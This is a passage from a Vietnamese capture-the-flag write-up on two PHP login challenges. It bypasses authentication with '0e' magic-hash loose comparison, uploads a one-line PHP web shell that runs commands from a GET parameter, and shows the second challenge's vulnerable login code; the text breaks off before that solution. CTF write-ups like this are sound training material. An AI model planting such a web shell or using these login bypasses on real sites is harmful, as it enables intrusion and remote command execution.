 Để giải quyết bài toán này, `password` sau khi hash sha256 phải bằng 0. Những hash này đều có điểm chung là bắt đầu bằng **0e**. 

Lên [https://github.com/spaze/hashes](https://github.com/spaze/hashes/blob/master/sha256.md), chọn một password tùy thích. 

Đăng nhập với **password = TyNOQHUS**. Đến đây, chúng ta chỉ cần upload shell đơn giản.

```php
<?php
    echo system($_GET['cmd']);
?>
```

![Alt text](/images/cookiehanhoan2023/image-16.png)

**Flag: CHH{PHP_m4g1c_tr1ck_0lD_but_g0lD_ec3f73ad46f1da5e1f1931a0bb288e0c}**

### Magic Login Harder

**Description**

Hãy quan sát chức năng đăng nhập, nó có tồn tại những lỗ hổng nghiêm trọng. FLAG được lưu trong `/flagXXX.txt` hãy tìm cách đọc được chúng.

```
FLAG=$(cat /dev/urandom | tr -dc 'a-zA-Z0-9' | fold -w 5 | head -n 1)
cp /flag.txt /flag$FLAG.txt
```
Tải challenge: [Magic Login Harder](https://drive.google.com/file/d/1ZSmsdcJ3iFR2KH4aSBQ9z4xlY-z8o-UH) (pass: cookiehanhoan)

**Format Flag: CHH{XXX}**

**Solution**

```php
<?php
    if(isset($_POST["submit"])){
        $username = base64_decode($_POST['username']);
        $password = base64_decode($_POST['password']);

        if(($username == $password)){
            echo 'Username and password are not the same';
        }
        else if((md5($username)===md5($password))){
            $_SESSION['username'] = $username;
            header('Location: admin.php?file=1.txt');
        } else {
            echo 'Username and password are wrong';
        }
    }
?>
```
